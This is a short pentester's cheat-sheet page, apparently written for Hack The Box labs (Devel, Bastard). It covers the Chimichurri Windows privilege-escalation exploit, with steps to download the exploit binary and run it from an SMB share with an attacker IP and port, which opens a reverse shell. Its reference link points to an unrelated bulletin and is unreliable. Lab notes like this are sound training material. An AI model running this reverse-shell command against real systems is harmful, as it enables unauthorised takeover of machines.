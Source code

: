 
## DESCRIPTION

This security update resolves one publicly disclosed vulnerability and one privately reported vulnerability in the Tracing Feature for Services. The vulnerabilities could allow elevation of privilege if an attacker runs a specially crafted application.

![[Pasted image 20230130213517.png]]

#### Mas información: 
* https://learn.microsoft.com/en-us/security-updates/securitybulletins/2017/ms17-010


## EXPLOITATION

1. Descargamos el .exe malicioso (Chimichurri.exe):  https://github.com/egre55/windows-kernel-exploits

2. Lo transferimos al equipo comprometido: [[TRANSFERRING FILES]]

3. Execution:

```
Chimichurri.exe <<IP>> <<puertoremoto>>

#Ejemplo usando smb directamente:
\\10.10.14.47\test\Chimichurri.exe 10.10.14.47 4444
```

## MACHINES

* Hack The Box: Devel, Bastard

